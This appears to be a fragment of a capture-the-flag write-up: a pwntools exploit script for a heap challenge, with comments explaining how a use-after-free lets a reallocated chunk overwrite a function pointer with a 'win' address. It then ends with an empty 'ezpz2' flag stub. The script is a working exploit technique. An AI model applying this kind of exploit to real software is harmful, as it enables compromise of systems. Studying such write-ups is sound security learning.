 ```
    p.recvuntil("refresh): ")
    p.sendline("C")

def free(num):
    p.recvuntil("refresh): ")
    p.sendline("D")
    p.sendline(str(num))

def set(num, data):
    p.recvuntil("refresh): ")
    p.sendline("S")
    p.sendline(str(num))
    p.sendline(data)

def ask(num):
    p.recvuntil("refresh): ")
    p.sendline("A")
    p.sendline(str(num))

# win addr is 0x08048a5c

# each question entry has 2 malloc'ed chunks (size 0x20 each)
# first chunk starts with a function pointer (executed by ask) and ends with a pointer to the 2nd chunk (serving as a string pointer)
# second chunk stores string data which is intended to be printed by the function pointer

create(0)
free(0)

# the first chunk for a question is freed first, then the second string chunk
# this means in the bin, for first fit allocation, the second chunk will get malloc'ed first in future

create(1)

# so now question 0 uses chunk 1 and 2 respectively, and question 1 uses chunk 2 and 1 respectively

# by setting the string of q1, we write the win function address to the first chunk
# in relation to q0 this is overwriting the function pointer
set(1, p32(0x08048a5c))

# since theres a UAF vuln, we can still ask q0 although it was freed
# asking will trigger the function pointer which is now the win function
ask(0)

p.interactive()
```

ezpz2
===========================
Flag: FLAG{}
